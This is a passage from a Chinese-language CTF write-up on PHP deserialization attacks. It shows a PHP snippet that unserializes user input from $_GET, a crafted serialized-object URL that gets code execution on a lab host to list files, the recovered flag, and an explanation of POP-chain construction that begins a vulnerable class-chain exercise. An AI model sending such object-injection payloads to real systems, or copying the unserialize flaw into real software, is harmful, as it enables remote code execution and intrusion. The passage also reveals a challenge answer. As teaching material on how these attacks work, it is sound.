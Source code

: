 ```
    if(unserialize($_GET['aa'])=='phpinfo')
    {
        $m = new Anti();
    }
}
else
{
    header("location:index.html");
}
?>
```

emmmm 几乎一样 可以自己试着做一下
`http://54.200.169.99:7000/session.php?aa=O:4:"Anti":1:{s:4:"info";s:36:"print_r(scandir(dirname(__FILE__)));";}`
发现flag文件http://54.200.169.99:7000/f1ag_i3_h3re
D0g3{Sim_Pl3_S3sSi0n}

## 0x04 POP链构造

### POP：面向属性编程

面向属性编程（Property-Oriented Programing） 用于上层语言构造特定调用链的方法，与二进制利用中的面向返回编程（Return-Oriented Programing）的原理相似，都是从现有运行环境中寻找一系列的代码或者指令调用，然后根据需求构成一组连续的调用链。在控制代码或者程序的执行流程后就能够使用这一组调用链来执行一些操作。

### 基本概念

在二进制利用时，ROP 链构造中是寻找当前系统环境中或者内存环境里已经存在的、具有固定地址且带有返回操作的指令集，而 POP 链的构造则是寻找程序当前环境中已经定义了或者能够动态加载的对象中的属性（函数方法），将一些可能的调用组合在一起形成一个完整的、具有目的性的操作。
二进制中通常是由于内存溢出控制了指令执行流程，而反序列化过程就是控制代码执行流程的方法之一，前提：**进行反序列化的数据能够被用户输入所控制。**

### POP链利用

一般的序列化攻击都在PHP魔术方法中出现可利用的漏洞，因为自动调用触发漏洞，但如果关键代码没在魔术方法中，而是在一个类的普通方法中。这时候就可以通过构造POP链寻找相同的函数名将类的属性和敏感函数的属性联系起来。

### 实战训练

```
<?php
class start_gg
{
        public $mod1;
        public $mod2;
        public function __destruct()
        {
                $this->mod1->test1();
        }
}
class Call
{
        public $mod1;
        public $mod2;
        public function test1()
    {
            $this->mod1->test2();
    }
}
class funct
{
        public $mod1;
        public $mod2;
        public function __call($test2,$arr)
        {
```